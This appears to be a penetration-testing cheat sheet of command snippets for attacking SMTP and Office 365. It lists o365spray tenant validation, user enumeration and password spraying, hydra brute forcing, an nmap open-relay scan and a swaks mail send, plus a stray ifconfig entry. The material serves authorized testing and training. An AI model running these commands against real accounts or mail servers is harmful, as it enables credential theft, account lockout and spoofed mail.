## attacking common services - smtp - o365spray validate office365 in use
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python3 o365spray.py --validate --domain <domain>
```

## attacking common services - smtp - o365spray user enumeration
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python3 o365spray.py --enum -U <usersList> --domain <domain>
```

## attacking common services - smtp - brute forcing
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -<Ll> <user> -<Pp> <password> -f <targetIP> <mail_protocol>
```

## attacking common services - smtp - o365spray password spraying
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
python3 o365spray.py --spray -U <usersList> -p '<password>' --count 1 --lockout 1 --domain <domain>
```

## attacking common services - smtp - protocol specific attacks - open relay
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nmap -p25 -Pn --script smtp-open-relay <targetIP>
```

## attacking common services - smtp - protocol specific attacks - open relay 2
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
swaks --from <email> --to <destEmail> --header 'Subject: <subject>' --body '<body>' --server <mailServer>
```

## pivtunnportf - displays all current network configurations Linux
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
ifconfig
```
